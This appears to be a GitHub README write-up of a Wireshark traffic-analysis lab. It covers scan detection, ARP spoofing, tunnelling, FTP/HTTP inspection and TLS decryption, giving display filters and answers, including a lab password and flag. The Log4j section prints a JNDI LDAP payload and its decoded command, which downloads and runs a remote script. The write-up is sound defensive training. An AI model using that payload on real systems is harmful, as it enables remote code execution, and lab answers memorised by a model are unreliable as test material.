






# Wireshark: Traffic Analysis

## Overview

This project focuses on **packet-level network traffic analysis using Wireshark**. The exercises investigate suspicious and anomalous activity across several protocols, including Nmap scans, ARP, DHCP, NetBIOS, Kerberos, DNS, ICMP, FTP, HTTP, and HTTPS.

The goal was to develop practical SOC and network-forensics skills by using display filters, packet inspection, protocol analysis, stream reconstruction, and TLS decryption.

## Tools Used

- Wireshark
- CyberChef
- Ubuntu Linux
- Terminal

---

# Investigation Summary

## 1. Nmap Scan Analysis

The Nmap capture was investigated to identify TCP Connect scans, UDP scanning behaviour, and ICMP responses generated by closed UDP ports.

### Filters Used

```text
tcp.flags.syn == 1 and tcp.flags.ack == 0 and tcp.window_size > 1024
```

```text
icmp.type == 3 and icmp.code == 3
```

```text
udp.port in {55 .. 70}
```

### Key Findings

| Investigation | Result |
|---|---:|
| Total TCP Connect scans | `1000` |
| Scan type used against TCP port 80 | `TCP Connect` |
| UDP close-port messages | `1083` |
| Open UDP port in the 55–70 range | `68` |

This exercise demonstrated how Wireshark can be used to identify scanning techniques by analysing TCP flags, ICMP responses, and destination ports.



---

## 2. ARP Poisoning / Spoofing Analysis

The ARP capture was investigated to identify traffic crafted by an attacker and HTTP credentials captured as a result of traffic interception.

### Filters Used

```text
arp.opcode == 1 && arp.src.hw_mac == 00:0c:29:e2:18:b4
```

```text
eth.dst == 00:0c:29:e2:18:b4 && http
```

```text
(eth.dst == 00:0c:29:e2:18:b4 && http) && urlencoded-form
```

### Key Findings

| Investigation | Result |
|---|---|
| Attacker-crafted ARP requests | `284` |
| HTTP packets received by the attacker | `90` |
| Sniffed username/password entries | `6` |
| Password of `Client986` | `clientnothere!` |
| Comment provided by `Client354` | `Nice work!` |

This exercise demonstrated how ARP spoofing can be investigated by identifying forged ARP requests and filtering traffic destined for the suspected attacker.

---

## 3. Identifying Hosts: DHCP, NetBIOS and Kerberos

DHCP, NetBIOS, and Kerberos traffic was analysed to map hostnames, MAC addresses, IP addresses, and user identities.

### Filters Used

```text
dhcp.option.hostname contains "Galaxy-A30"
```

```text
nbns.name contains "LIVALJM"
```

```text
nbns.name contains "LIVALJM<00>"
```

```text
dhcp.option.dhcp == 3 && dhcp.option.requested_ip_address == 172.16.13.85
```

```text
Kerberos.CNameString == "u5"
```

```text
kerberos
```

### Key Findings

| Investigation | Result |
|---|---|
| MAC address of `Galaxy A30` | `9a:81:41:cb:96:6c` |
| NetBIOS registration requests from `LIVALJM` | `16` |
| Host requesting `172.16.13.85` | `Galaxy-A12` |
| IP address of user `u5` | `10[.]1[.]1[.]12` |
| Available hostname in the Kerberos packets | `xp1$` |

This exercise demonstrated how different protocols can be combined to build a picture of network hosts and user activity.



---

## 4. Tunneling Traffic: DNS and ICMP

The capture was investigated for anomalous traffic that could indicate tunneling activity.

### Filters Used

```text
icmp
```

```text
dns
```

### Investigation Areas

| Investigation | Result |
|---|---|
| Protocol used in ICMP tunnelling | `ssh` |
| Suspicious main domain receiving anomalous DNS queries | `dataexfil[.]com` |

The investigation focused on isolating ICMP and DNS traffic and then inspecting anomalous packets for signs of covert communication.

---

## 5. Cleartext Protocol Analysis: FTP

FTP traffic was analysed to identify failed authentication attempts, file access, file uploads, and attempts to modify file permissions.

### Filters / Techniques Used

```text
ftp.response.code == 530
```

```text
ftp.response.code == 213
```

```text
ftp.request.commad == "STOR"
```

Then:

**Follow → Follow TCP Stream**

### Key Findings

| Investigation | Result |
|---|---|
| Incorrect login attempts | `737` |
| Size of file accessed by `ftp` account | `39424` bytes |
| Uploaded document | `resume.doc` |
| Command used to change executing permissions | `CHMOD 777` |

The FTP investigation demonstrated the security risks of cleartext protocols. Credentials, commands, filenames, and other sensitive activity can be reconstructed directly from captured traffic.



---

## 6. Cleartext Protocol Analysis: HTTP

HTTP traffic was investigated for anomalous user agents and a Log4j exploitation attempt.

### Filters Used

```text
http.user_agent
```

For the Log4j investigation:

```text
http.request.method == "POST" && http.user_agent contains "$"
```

The HTTP User-Agent field was also added as a packet-list column to make anomalous values easier to compare.

### Key Findings

| Investigation | Result |
|---|---|
| Number of anomalous User-Agent types | `6` |
| Packet with subtle User-Agent spelling difference | `52` |
| Log4j attack starting packet | `444` |
| IP contacted by the adversary | `62[.]210[.]130[.]250` |

### Log4j Payload Analysis

The suspicious User-Agent contained the following LDAP reference:

```text
${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==}
```

The Base64 component decoded to:

```text
wget http://62.210.130.250/lh.sh;chmod +x lh.sh;./lh.sh
```

The decoded command shows that the adversary attempted to:

1. Download `lh.sh`.
2. Make the script executable.
3. Execute the script.



---

## 7. Encrypted Protocol Analysis: Decrypting HTTPS

HTTPS traffic was decrypted using the supplied `KeysLogFile.txt` file. After decryption, HTTP/2 packets and application-layer headers could be inspected.

### Filters Used

```text
(http.request or tls.handshake.type == 1) and !(ssdp)
```

```text
http2
```

### Key Findings

| Investigation | Result |
|---|---|
| `Client Hello` frame sent to `accounts.google.com` | `16` |
| Number of HTTP/2 packets after decryption | `115` |
| Authority header in Frame `322` | `safebrowsing[.]googleapis[.]com` |
| Recovered flag | `FLAG{THM-PACKETMASTER}` |

The `Client Hello` investigation used the TLS **server_name** extension to identify the destination hostname.

This exercise demonstrated how TLS session keys can be used to decrypt captured HTTPS traffic and expose HTTP/2-level information for investigation.





---

# Bonus: Hunt Cleartext Credentials

Additional HTTP traffic was investigated for cleartext credentials.

### Key Findings

| Investigation | Result |
|---|---:|
| Packet containing credentials using HTTP Basic Auth | `237` |
| Packet where an empty password was submitted | `170` |

This demonstrates why cleartext authentication mechanisms can expose credentials to anyone capable of capturing the network traffic.

---

# Bonus: Actionable Results

Wireshark packet findings were converted into IPFirewall rules.

### Deny Source IPv4 Address

For packet `99`:

```text
add deny ip from 10.121.70.151 to any in
```

### Allow Destination MAC Address

For packet `231`:

```text
add allow MAC 00:d0:59:aa:af:80 any in
```

This exercise demonstrated how packet-level findings can be translated into actionable firewall rules.

---

# Skills Demonstrated

- Packet Capture Analysis
- Network Traffic Analysis
- Wireshark Display Filters
- Nmap Scan Detection
- TCP Connect Scan Identification
- UDP Scan Analysis
- ICMP Analysis
- ARP Poisoning / Spoofing Analysis
- DHCP Analysis
- NetBIOS Analysis
- Kerberos Analysis
- DNS Tunnelling Investigation
- ICMP Tunnelling Investigation
- FTP Traffic Analysis
- HTTP Traffic Analysis
- HTTP User-Agent Analysis
- Log4j Attack Detection
- Base64 Decoding
- CyberChef
- TCP Stream Reconstruction
- TLS Traffic Decryption
- HTTP/2 Analysis
- Cleartext Credential Detection
- Firewall Rule Creation

---

# Lessons Learned

- Wireshark can be used to investigate suspicious activity at the packet level across multiple protocols.
- TCP flags and ICMP responses can reveal different network scanning techniques.
- ARP traffic can provide evidence of spoofing or poisoning attacks and subsequent traffic interception.
- DHCP, NetBIOS, and Kerberos traffic can help map IP addresses, MAC addresses, hostnames, and users.
- DNS and ICMP traffic should be investigated for unusual patterns that may indicate tunnelling.
- FTP and HTTP transmit information in cleartext, making credentials, commands, filenames, and other sensitive data visible in packet captures.
- HTTP User-Agent fields can contain useful indicators of exploitation attempts, including Log4j payloads.
- Base64-encoded payloads can be decoded to reveal attacker commands and infrastructure.
- TLS traffic can be decrypted when the appropriate session key log is available.
- HTTP/2 analysis after TLS decryption can reveal useful application-layer information such as authority headers and URLs.
- Packet-level findings can be converted into actionable security controls such as firewall rules.
- Effective Wireshark analysis combines filtering with manual inspection of packet details and reconstructed streams.


